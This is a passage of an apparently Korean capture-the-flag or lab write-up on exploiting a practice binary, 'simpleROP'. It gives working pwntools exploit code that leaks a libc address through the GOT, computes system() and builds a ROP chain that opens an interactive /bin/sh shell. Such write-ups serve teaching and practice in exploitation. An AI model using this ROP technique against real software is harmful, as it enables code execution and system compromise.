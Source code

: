 ```python
payload += p32(writableArea)
  
r = process('./simpleROP')
r.recvn(0x13) #맨 처음 write 함수에서 0x13 byte만큼 화면에 출력되는 것
r.send(payload + '\n')
r.send(binsh)
r.recvn(0x119-0x4) #두 번째 write 함수에서 0x119-0x4(ret) byte만큼 화면에 출력되는 것
read = u32(r.recvn(4))
system_addr = read - read_system_offset
r.send(p32(system_addr))
r.interactive()

```

결과

![image](https://user-images.githubusercontent.com/59410565/119163484-6a869e00-ba96-11eb-872c-9536086da3fe.png)

+) 참고

![image](https://user-images.githubusercontent.com/59410565/119163302-3e6b1d00-ba96-11eb-8aee-4c2fa855b149.png)

+) pwntools 사용하여 작성한 코드

```python
from pwn import *
from struct import *
 
#context.log_level = 'debug'
 
binsh = "/bin/sh"
 
binary = ELF('./simpleROP')
 
#32bit OS
libc = ELF("/lib/i386-linux-gnu/libc-2.23.so")
#64bit OS
#libc = ELF("/lib32/libc-2.23.so")
rop = ROP(binary)
 
print binary.checksec()
 
read_plt = binary.plt['read']
read_got = binary.got['read']
write_plt = binary.plt['write']
write_got = binary.got['write']
read_system_offset = libc.symbols['read'] - libc.symbols['system']
writableArea = 0x0804a024
 
#Address info
log.info("read@plt : " + str(hex(read_plt)))
log.info("read@got : " + str(hex(read_got)))
log.info("write@plt : " + str(hex(write_plt)))
log.info("write@got : " + str(hex(write_got)))
log.info("read system offset : " + str(hex(read_system_offset)))
log.info("Writeable area : " + str(writableArea))
 
#ROP Code
rop.read(0,writableArea,len(str(binsh)))
rop.write(1,read_got,4)
rop.read(0,read_got,len(str(read_got)))
rop.raw(read_plt)
rop.raw(0xaaaabbbb)
rop.raw(writableArea)
payload = "A"*260 + str(rop)
```